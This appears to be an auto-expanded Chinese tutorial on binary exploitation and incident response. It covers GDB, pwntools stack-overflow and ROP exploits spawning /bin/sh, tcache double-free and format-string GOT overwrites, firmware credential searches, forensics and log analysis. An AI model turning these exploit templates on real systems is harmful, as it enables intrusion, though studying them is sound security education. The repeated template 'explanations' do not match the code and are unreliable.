




## 1. 学习目标（Bloom 分类）

本节按照布鲁姆教育目标分类学组织学习路径。本文主题为《二进制安全与应急响应》，属于 网络安全 模块，读者可以根据自身阶段选择阅读深度。

记忆层面：能够准确复述本文的核心概念、术语与基本语法或操作步骤，并能够在提问或检索时快速定位对应知识点。能够说出 网络安全 的核心概念、组件与标准流程。

理解层面：能够用自己的语言解释核心原理与工作机制，说明概念之间的因果关系，而不是机械记忆结论。能够解释 网络安全 的工作原理与关键机制。

应用层面：能够在真实项目或练习场景中运用本文知识解决具体问题，写出正确且可维护的实现。能够执行 网络安全 相关的标准操作与配置。

分析层面：能够拆解复杂问题，比较本文主题与相邻概念的异同，识别边界条件与例外情况。能够分析 网络安全 方案在可靠性、成本与性能上的权衡。

评价层面：能够根据约束条件（性能、可读性、安全、成本）评价不同方案的优劣，做出有依据的技术决策。能够评价 网络安全 中的技术选型。

创造层面：能够把本文知识与其他模块知识组合，设计出新的解决方案或可复用的工程模式。能够设计基于 网络安全 的完整解决方案。

通过本节学习，读者应当能够把《二进制安全与应急响应》纳入自己的知识网络，并与 网络安全 模块的其他主题（加密、认证、Web 安全、渗透测试、应急响应）建立关联。

## 2. 历史动机与发展脉络

《二进制安全与应急响应》是 网络安全 领域的重要主题。要真正理解它，需要先了解它解决的问题与演进过程。

网络安全伴随计算机发展而来：1970 年代漏洞概念出现，1988 年 Morris 蠕虫推动 CERT 成立；现代安全已从“边界防御”转向“零信任”。
核心框架：CIA 三元组（机密性、完整性、可用性）；STRIDE 威胁建模；OWASP Top 10 是 Web 安全事实清单。
现代主题：零信任架构、供应链安全（SBOM）、云安全、DevSecOps、AI 安全；合规（等保、GDPR）驱动企业实践。

回到本文主题：二进制安全与应急响应 的提出与成熟，正是上述技术背景下的必然产物。早期实现往往以简单可用为目标，随着工程规模扩大，社区逐渐沉淀出标准做法与最佳实践；理解这一脉络，可以帮助读者判断“为什么文档中的推荐写法是现在这个样子”，也能在遇到历史遗留代码时准确识别其设计年代与取舍。


## 3. 形式化定义与核心概念精讲

本节把《二进制安全与应急响应》涉及的核心概念以“定义 + 讲解”的形式展开。读者应把定义当作工具，把讲解当作理解路径；两者结合才能形成可迁移的知识。

密码学基础：对称加密（AES）、非对称（RSA/ECC）、哈希（SHA-2/3）、HMAC；密码学是加密、签名与认证的地基。
认证与授权：口令哈希（bcrypt/argon2）、MFA、Session/JWT、OAuth 2.0/OIDC、RBAC/ABAC。
Web 攻击面：注入（SQL/XSS）、CSRF、SSRF、文件上传、反序列化；防御（输入校验、输出编码、CSP、SameSite）。

### 3.1 原文章节逐一精讲

原文档把主题拆分为 13 个小节，下面按顺序给出每一节的导读讲解，随后保留原文细节供精读。

#### 原文精读（完整保留）


#### 1. 二进制逆向工程

##### 1.1 逆向分析工具

| 工具    | 类型      | 特点               | 适用场景      |
| :------ | :-------- | :----------------- | :------------ |
| IDA Pro | 静态分析  | 业界标准，插件丰富 | 全面逆向分析  |
| Ghidra  | 静态分析  | 开源免费，NSA 出品 | 学习/开源分析 |
| radare2 | 静态+动态 | 命令行，脚本化     | 自动化分析    |
| GDB     | 动态调试  | Linux 标准调试器   | 运行时分析    |
| x64dbg  | 动态调试  | Windows 调试器     | Windows 逆向  |
| Frida   | 动态插桩  | 跨平台，Hook 框架  | 移动端/运行时 |

##### 1.2 ELF 文件结构



##### 1.3 GDB 常用命令

```bash
# 启动调试
gdb ./vuln_binary

# 基本命令
break main              # 设置断点
run                     # 运行程序
step / next             # 单步执行（进入/跳过函数）
continue                # 继续执行
finish                  # 执行到函数返回

# 内存检查
x/20wx $esp            # 查看栈内容（20个4字节十六进制）
x/s 0x8048000          # 查看字符串
info registers          # 查看寄存器
info functions          # 查看函数列表

# 高级功能
checksec ./vuln_binary  # 检查安全机制
  # NX/DEP: 栈不可执行
  # ASLR: 地址随机化
  # Stack Canary: 栈保护
  # PIE: 位置无关可执行
  # RELRO: 只读重定位

# Pattern 生成（确定偏移）
pattern create 200      # 生成 200 字节模式串
pattern offset 0x41366241  # 计算偏移量
```

#### 2. 栈溢出漏洞利用

##### 2.1 栈溢出原理



溢出方向：局部变量 → 旧 EBP → 返回地址 → 控制执行流

##### 2.2 基本利用过程

```python
# pwntools 栈溢出利用
from pwn import *

# 设置目标
elf = ELF('./vuln')
p = process('./vuln')

# 确定偏移量
offset = 44  # 通过 pattern 确定

# 构造 payload
# 方法1: ret2shellcode（无 NX 保护时）
shellcode = asm(shellcraft.sh())
payload = b'A' * offset + p32(0x0804a060)  # 返回到 shellcode 地址
payload = shellcode + b'A' * (offset - len(shellcode)) + p32(buf_addr)

# 方法2: ret2libc（有 NX 保护时）
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))
payload = b'A' * offset + p32(system_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)

# 发送 payload
p.sendline(payload)
p.interactive()
```

##### 2.3 ROP 链构造

```python
# ret2syscall（使用 ROP gadgets）
from pwn import *

elf = ELF('./vuln')
p = process('./vuln')

# 寻找 gadgets
# ROPgadget --binary ./vuln
# 0x0806f022: pop eax ; ret
# 0x080bb196: pop ebx ; ret
# 0x080492e3: int 0x80

pop_eax = 0x0806f022
pop_ebx = 0x080bb196
int_80  = 0x080492e3

# execve("/bin/sh", NULL, NULL)
payload  = b'A' * offset
payload += p32(pop_eax) + p32(0x0b)     # eax = 11 (execve)
payload += p32(pop_ebx) + p32(bin_sh)    # ebx = "/bin/sh"
payload += p32(int_80)                    # 触发系统调用

p.sendline(payload)
p.interactive()
```

#### 3. 堆溢出漏洞利用

##### 3.1 堆管理机制

```mermaid
flowchart TD
    C[Chunk 结构<br/>prev_size 前一个 chunk 大小<br/>size | A|M|P 本 chunk 大小+标志位<br/>fd 前向指针 空闲时有效<br/>bk 后向指针 空闲时有效<br/>数据区]
```

Fast Bins：≤ 0x80 字节（单链表 LIFO）；Small Bins：≤ 0x400 字节（双链表 FIFO）；Large Bins：> 0x400 字节（按大小排序）；Unsorted Bin：释放后先进入，分配时再分类

##### 3.2 常见堆利用技术

| 技术            | 原理                       | glibc 版本 |
| :-------------- | :------------------------- | :--------- |
| Fastbin Dup     | Double Free 获取任意写     | < 2.26     |
| Unlink          | 伪造 chunk 实现任意地址写  | < 2.28     |
| House of Force  | 溢出修改 top chunk 大小    | < 2.29     |
| Tcache Poison   | TCache 双重释放            | < 2.32     |
| House of Orange | 无 free 调用时的利用       | 多版本     |
| Largebin Attack | 大 bin 的 fd_nextsize 利用 | 多版本     |

##### 3.3 TCache Poison 示例

```c
// 漏洞代码: double free
#include <stdlib.h>
#include <string.h>
int main() {
    char *a = malloc(0x20);
    char *b = malloc(0x20);
    free(a);
    free(a);    // Double Free! TCache 未检查
    // 现在 TCache 链表: a → a (循环)
    char *c = malloc(0x20);
    // 修改 c 的 fd 指向目标地址
    *(long*)c = 0x41414141;
    malloc(0x20);  // 返回 a
    char *d = malloc(0x20);  // 返回 0x41414141（任意地址写）
    return 0;
}
```

#### 4. 格式化字符串漏洞

##### 4.1 漏洞原理

```c
//  危险代码
printf(user_input);       // 用户输入作为格式化字符串
sprintf(buf, user_input); // 同样危险

//  安全代码
printf("%s", user_input);
```

##### 4.2 利用方式

```bash
# 信息泄露
%x %x %x %x     # 泄露栈上的值（十六进制）
%p %p %p %p     # 泄露指针值
%s              # 读取指针指向的字符串（任意读）

# 任意地址写
%10$n           # 将已输出字节数写入栈上第10个参数指向的地址
%100c%10$n      # 写入值 100
%<offset>c%<pos>$n  # 精确写入
```

##### 4.3 pwntools 利用

```python
from pwn import *

elf = ELF('./fmt_vuln')
p = process('./fmt_vuln')

# 确定偏移（格式化字符串在栈上的位置）
# 输入 AAAA|%p|%p|%p|... 找到 0x41414141

offset = 6  # 假设偏移为 6

# 任意写：修改 GOT 表项
target_addr = elf.got['printf']  # 要修改的目标地址

# 使用 fmtstr_payload 自动构造
payload = fmtstr_payload(offset, {target_addr: elf.symbols['system']})
p.sendline(payload)
```

#### 5. 物联网安全

##### 5.1 IoT 攻击面

| 攻击面       | 风险                     | 工具               |
| :----------- | :----------------------- | :----------------- |
| 固件         | 硬编码凭证、后门         | binwalk、Firmadyne |
| Web 管理界面 | 默认密码、命令注入       | Burp Suite         |
| 通信协议     | 明文传输、弱加密         | Wireshark          |
| 移动 App     | API 密钥泄露、不安全存储 | jadx、Frida        |
| 硬件接口     | UART/JTAG 调试口暴露     | 逻辑分析仪         |

##### 5.2 固件分析

```bash
# 提取固件
binwalk firmware.bin                    # 分析固件结构
binwalk -e firmware.bin                 # 自动提取

# 分析提取的文件系统
squashfs-root/
├── bin/          # 二进制文件
├── etc/          # 配置文件
│   ├── passwd    # 用户凭证
│   ├── shadow    # 密码哈希
│   └── config    # 设备配置
├── web/          # Web 管理界面
└── usr/bin/      # 用户程序

# 搜索硬编码凭证
grep -r "password" squashfs-root/etc/
grep -r "admin" squashfs-root/web/
find squashfs-root -name "*.cfg" -exec cat {} \;
```

#### 6. 工控系统安全

##### 6.1 工控协议风险

| 协议       | 端口  | 安全问题          |
| :--------- | :---- | :---------------- |
| Modbus TCP | 502   | 明文、无认证      |
| S7comm     | 102   | 明文、无认证      |
| DNP3       | 20000 | 明文（可选认证）  |
| OPC DA     | 135   | DCOM 安全配置复杂 |
| IEC 104    | 2404  | 明文、无认证      |

##### 6.2 工控安全防护

```
1. 网络隔离: IT/OT 网络物理/逻辑隔离
2. 纵深防御: 防火墙 → DMZ → 工控防火墙 → PLC
3. 协议白名单: 仅允许合法工控协议和操作
4. 入侵检测: 工控专用 IDS 规则
5. 安全运维: 变更管理、补丁管理、备份恢复
```

#### 7. 隐写术分析

##### 7.1 常见隐写方式

| 类型       | 方法               | 检测工具            |
| :--------- | :----------------- | :------------------ |
| LSB 隐写   | 修改最低有效位     | zsteg、StegSolve    |
| 文件追加   | 在文件末尾追加数据 | binwalk、hex编辑器  |
| 元数据隐写 | EXIF/注释字段嵌入  | exiftool            |
| 调色板隐写 | 修改调色板索引     | Stegsolve           |
| 音频隐写   | DCT/DWT 域嵌入     | Audacity、SilentEye |

##### 7.2 隐写分析流程

```bash
# 1. 文件类型识别
file mystery_file
xxd mystery_file | head -20

# 2. 元数据检查
exiftool mystery_file

# 3. 隐藏数据提取
binwalk -e mystery_file           # 提取嵌入文件
zsteg mystery_file.png            # PNG LSB 隐写检测
steghide extract -sf mystery.jpg  # JPEG 隐写提取

# 4. 字符串搜索
strings mystery_file | grep -i flag
strings mystery_file | grep -i password

# 5. 对比分析（如有原始文件）
compare original.png modified.png diff.png
```

#### 8. 应急响应流程

##### 8.1 PDCERF 模型

```
准备(Preparation) → 发现(Discovery) → 抑制(Containment) →
根除(Eradication) → 恢复(Recovery) → 总结(Follow-up)
```

##### 8.2 应急响应操作

```bash
# 1. 现场保护 — 避免破坏证据
# 不要重启系统！不要删除文件！

# 2. 证据固定
dd if=/dev/sda of=/evidence/disk_image.img bs=4M  # 磁盘镜像
md5sum /evidence/disk_image.img > image.md5        # 完整性校验

# 3. 内存采集
# Linux
dd if=/dev/mem of=/evidence/memory.dump bs=1M
# 或使用 LiME
insmod lime.ko "path=/evidence/memory.lime format=lime"

# Windows
# 使用 WinPmem 或 DumpIt

# 4. 进程分析
ps auxf                    # 查看进程树
lsof -i -P -n             # 查看网络连接
netstat -antp              # 网络连接状态
ls -la /proc/[PID]/exe     # 查看进程可执行文件
cat /proc/[PID]/cmdline    # 查看进程命令行

# 5. 持久化后门排查
crontab -l                 # 计划任务
cat /etc/crontab
ls -la /etc/cron.*
systemctl list-unit-files --state=enabled  # 开机启动
cat ~/.bashrc ~/.bash_profile              # Shell 初始化
cat /etc/rc.local                          # 启动脚本
```

#### 9. 日志分析技术

##### 9.1 Linux 日志分析

```bash
# 登录日志
last -f /var/log/wtmp          # 成功登录
lastb -f /var/log/btmp         # 失败登录
grep "Failed password" /var/log/auth.log | awk '{print $11}' | \
  sort | uniq -c | sort -rn | head  # 暴力破解统计

# 系统日志
grep -i "error\|fail\|critical" /var/log/syslog
journalctl --since "2024-01-01" --until "2024-01-02" -p err

# Web 日志分析
awk '{print $1}' access.log | sort | uniq -c | sort -rn | head -20  # IP 统计
grep "POST /login" access.log | grep " 401 "   # 登录失败
grep "SELECT\|UNION\|DROP" access.log          # SQL 注入尝试
grep "<script>\|alert(" access.log              # XSS 尝试
```

##### 9.2 Windows 日志分析

```powershell
# 安全日志 — 登录事件
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4625} |
  Select-Object TimeCreated, Message | Format-Table

# 统计登录失败 IP
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4625} |
  ForEach-Object { $_.Properties[5].Value } |
  Group-Object | Sort-Object Count -Descending | Select-Object -First 10

# 进程创建事件
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4688} |
  Select-Object TimeCreated, Message | Format-List
```

#### 10. 取证技术

##### 10.1 内存取证（Volatility）

```bash
# 获取系统信息
vol.py -f memory.dump windows.info

# 进程列表
vol.py -f memory.dump windows.pslist
vol.py -f memory.dump windows.pstree          # 进程树
vol.py -f memory.dump windows.psscan          # 扫描隐藏进程

# 网络连接
vol.py -f memory.dump windows.netscan

# 提取可疑进程
vol.py -f memory.dump windows.memmap --pid 1234 --dump

# 注册表分析
vol.py -f memory.dump windows.registry.printkey \
  --key "Software\Microsoft\Windows\CurrentVersion\Run"

# 文件提取
vol.py -f memory.dump windows.filescan | grep ".doc"
vol.py -f memory.dump windows.dumpfiles --physaddr 0x3e4a5b60
```

##### 10.2 磁盘取证

```bash
# 创建取证镜像
dd if=/dev/sda of=evidence.img bs=4M conv=noerror,sync
# 或使用专业工具: FTK Imager、Guymager

# 镜像分析
mmls evidence.img                    # 查看分区表
fls -r -o 2048 evidence.img          # 查看文件系统
icat -o 2048 evidence.img 12345      # 提取文件（按 inode 号）

# 恢复删除文件
foremost -i evidence.img -o recovered/    # 按文件头恢复
photorec evidence.img                     # 交互式恢复

# 时间线分析
fls -r -m / -o 2048 evidence.img > body.txt
mactime -b body.txt > timeline.csv
```

#### 11. 流量分析

##### 11.1 Wireshark 数据包分析

```
常用过滤语法:
  ip.addr == 192.168.1.1           # IP 过滤
  tcp.port == 80                   # 端口过滤
  http.request.method == "POST"    # HTTP POST 请求
  dns.qry.name contains "evil"     # DNS 查询
  tcp.flags.syn == 1               # SYN 包
  frame.len > 1000                 # 大包过滤

分析技巧:
1. 统计 → 对话 → 查看 IP 通信量排名
2. 统计 → 协议分级 → 查看协议分布
3. 跟随 → TCP 流 → 查看完整会话
4. 导出 → HTTP 对象 → 提取传输文件
```

##### 11.2 tcpdump 流量分析

```bash
# 抓包
tcpdump -i eth0 -w capture.pcap           # 抓取所有流量
tcpdump -i eth0 host 192.168.1.1          # 指定主机
tcpdump -i eth0 port 80                   # 指定端口
tcpdump -i eth0 'tcp[tcpflags] & tcp-syn != 0'  # SYN 包

# 读取分析
tcpdump -r capture.pcap -nn               # 读取 pcap
tcpdump -r capture.pcap -A                # ASCII 显示
tcpdump -r capture.pcap -X                # 十六进制+ASCII

# 提取 HTTP 请求
tcpdump -r capture.pcap -A -s 0 | \
  grep -i "GET\|POST\|Host\|Cookie"
```

#### 12. CTF 夺旗挑战

##### 12.1 CTF 题目类型

| 类型    | 内容                   | 推荐平台           |
| :------ | :--------------------- | :----------------- |
| Web     | SQL注入、XSS、代码审计 | CTFHub、BUUCTF     |
| Pwn     | 栈/堆溢出、ROP         | pwnable.kr、BUUCTF |
| Reverse | 逆向分析、算法还原     | Reversing.kr       |
| Crypto  | 密码学攻击、RSA/AES    | CryptoHack         |
| Misc    | 隐写、流量分析、取证   | CTFHub             |
| Mobile  | Android/iOS 逆向       | 看雪 CTF           |

##### 12.2 学习路线

```
入门: CTFHub 技能树 → 掌握基础题型
进阶: BUUCTF 刷题 → 积累解题经验
实战: 参加线上 CTF 比赛 → 团队协作
提升: 复现真实漏洞 CVE → 深入理解原理
```

#### 13. 网络安全法律法规

##### 13.1 中国网络安全法律体系

| 法律法规                         | 施行日期   | 核心内容               |
| :------------------------------- | :--------- | :--------------------- |
| 《网络安全法》                   | 2017-06-01 | 网络运营者安全义务     |
| 《数据安全法》                   | 2021-09-01 | 数据分类分级、安全审查 |
| 《个人信息保护法》               | 2021-11-01 | 个人信息处理规则       |
| 《关键信息基础设施安全保护条例》 | 2021-09-01 | 关基设施保护要求       |

##### 13.2 渗透测试合规要求

```
1. 必须获得书面授权（渗透测试授权书）
2. 明确测试范围、时间、限制条件
3. 不得超出授权范围进行测试
4. 发现重大漏洞及时报告，不得利用
5. 测试数据保密，不得泄露
6. 测试完成后清除所有测试痕迹
7. 出具正式报告，提出修复建议
```


### 3.2 概念关系图

下面用 Mermaid 图表达本文核心概念之间的关系，帮助读者建立整体图景：



图中展示的是本文知识的结构化关系：核心概念是入口，原理机制解释“为什么”，代码实践演示“怎么做”，工程应用回答“何时用”。读者学习时可以把每个小节的内容挂接到对应节点上。

## 4. 理论推导与原理解析

本节深入《二进制安全与应急响应》背后的原理。理论部分不求面面俱到，而是聚焦“能解释现象、能指导实践”的关键推导。

密码学基础：对称加密（AES）、非对称（RSA/ECC）、哈希（SHA-2/3）、HMAC；密码学是加密、签名与认证的地基。
认证与授权：口令哈希（bcrypt/argon2）、MFA、Session/JWT、OAuth 2.0/OIDC、RBAC/ABAC。
Web 攻击面：注入（SQL/XSS）、CSRF、SSRF、文件上传、反序列化；防御（输入校验、输出编码、CSP、SameSite）。
渗透测试流程：信息收集 -> 漏洞扫描 -> 利用 -> 提权 -> 横向 -> 报告；工具（Nmap、Burp、Metasploit）。

需要强调的是，理论推导与工程实践之间存在翻译层：理论给出的是理想化模型与边界条件，工程代码则必须处理真实环境中的例外。读者在学习时应先掌握理论的“标准情形”，再通过陷阱章节了解“非标准情形”。

## 5. 代码示例与逐行讲解

本节把原文中的代码示例系统整理，并为每个示例补充用途说明与讲解。读者不应只浏览代码，而应逐段对照讲解理解设计意图。

### 5.1 示例：1.2 ELF 文件结构

该示例来自原文《1.2 ELF 文件结构》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。


讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 4 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.2 示例：1.3 GDB 常用命令

该示例来自原文《1.3 GDB 常用命令》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 启动调试
gdb ./vuln_binary

# 基本命令
break main              # 设置断点
run                     # 运行程序
step / next             # 单步执行（进入/跳过函数）
continue                # 继续执行
finish                  # 执行到函数返回

# 内存检查
x/20wx $esp            # 查看栈内容（20个4字节十六进制）
x/s 0x8048000          # 查看字符串
info registers          # 查看寄存器
info functions          # 查看函数列表

# 高级功能
checksec ./vuln_binary  # 检查安全机制
  # NX/DEP: 栈不可执行
  # ASLR: 地址随机化
  # Stack Canary: 栈保护
  # PIE: 位置无关可执行
  # RELRO: 只读重定位

# Pattern 生成（确定偏移）
pattern create 200      # 生成 200 字节模式串
pattern offset 0x41366241  # 计算偏移量
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 23 行有效代码，包含 1 类关键结构（function）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.3 示例：2.1 栈溢出原理

该示例来自原文《2.1 栈溢出原理》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。


讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 3 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.4 示例：2.2 基本利用过程

该示例来自原文《2.2 基本利用过程》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
# pwntools 栈溢出利用
from pwn import *

# 设置目标
elf = ELF('./vuln')
p = process('./vuln')

# 确定偏移量
offset = 44  # 通过 pattern 确定

# 构造 payload
# 方法1: ret2shellcode（无 NX 保护时）
shellcode = asm(shellcraft.sh())
payload = b'A' * offset + p32(0x0804a060)  # 返回到 shellcode 地址
payload = shellcode + b'A' * (offset - len(shellcode)) + p32(buf_addr)

# 方法2: ret2libc（有 NX 保护时）
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))
payload = b'A' * offset + p32(system_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)

# 发送 payload
p.sendline(payload)
p.interactive()
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 20 行有效代码，包含 2 类关键结构（import、from）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.5 示例：2.3 ROP 链构造

该示例来自原文《2.3 ROP 链构造》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
# ret2syscall（使用 ROP gadgets）
from pwn import *

elf = ELF('./vuln')
p = process('./vuln')

# 寻找 gadgets
# ROPgadget --binary ./vuln
# 0x0806f022: pop eax ; ret
# 0x080bb196: pop ebx ; ret
# 0x080492e3: int 0x80

pop_eax = 0x0806f022
pop_ebx = 0x080bb196
int_80  = 0x080492e3

# execve("/bin/sh", NULL, NULL)
payload  = b'A' * offset
payload += p32(pop_eax) + p32(0x0b)     # eax = 11 (execve)
payload += p32(pop_ebx) + p32(bin_sh)    # ebx = "/bin/sh"
payload += p32(int_80)                    # 触发系统调用

p.sendline(payload)
p.interactive()
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 19 行有效代码，包含 2 类关键结构（import、from）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.6 示例：3.1 堆管理机制

该示例来自原文《3.1 堆管理机制》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```mermaid
flowchart TD
    C[Chunk 结构<br/>prev_size 前一个 chunk 大小<br/>size | A|M|P 本 chunk 大小+标志位<br/>fd 前向指针 空闲时有效<br/>bk 后向指针 空闲时有效<br/>数据区]
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.7 示例：3.3 TCache Poison 示例

该示例来自原文《3.3 TCache Poison 示例》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```c
// 漏洞代码: double free
#include <stdlib.h>
#include <string.h>
int main() {
    char *a = malloc(0x20);
    char *b = malloc(0x20);
    free(a);
    free(a);    // Double Free! TCache 未检查
    // 现在 TCache 链表: a → a (循环)
    char *c = malloc(0x20);
    // 修改 c 的 fd 指向目标地址
    *(long*)c = 0x41414141;
    malloc(0x20);  // 返回 a
    char *d = malloc(0x20);  // 返回 0x41414141（任意地址写）
    return 0;
}
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 16 行有效代码，包含 1 类关键结构（return）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.8 示例：4.1 漏洞原理

该示例来自原文《4.1 漏洞原理》小节，用于演示二进制安全与应急响应相关操作。阅读时请先看代码结构，再看其后的讲解。

```c
//  危险代码
printf(user_input);       // 用户输入作为格式化字符串
sprintf(buf, user_input); // 同样危险

//  安全代码
printf("%s", user_input);
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 5 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.9 示例：4.2 利用方式

